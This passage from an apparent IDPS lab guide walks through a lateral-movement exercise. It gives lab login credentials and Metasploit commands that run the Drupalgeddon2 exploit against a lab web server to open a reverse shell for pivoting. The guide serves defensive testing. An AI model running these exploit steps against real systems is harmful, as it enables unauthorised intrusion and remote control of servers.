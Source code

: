 
## 7. Lateral Movement Scenario
**Estimated Time to Complete: 60 minutes**

In this exercise, we will again establish a **reverse shell** from the Drupal server, and use it as a **pivot** to gain access to the internal network which is not direclty accessible from the external VM. Traffic to the internal network will be routed through the established **reverse shell** from the **App1-WEB-TIER VM**. 

![](assets/images/IDPS_POC_29.gif)

**Open a SSH/Console session to the External VM**
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

**Initiate DrupalGeddon2 attack against the App1-WEB-TIER VM (again)**
1.	Type **sudo msfconsole** to launch **Metasploit**. Enter **VMware1!** if prompted for a password. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/unix/webapp/drupal_drupalgeddon2** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **set RPORT 8080** to define the port the vulnerable Drupal service runs on. 
    * Type **exploit -z** to initiate the exploit, esbalish a reverse shell, and background the session.
    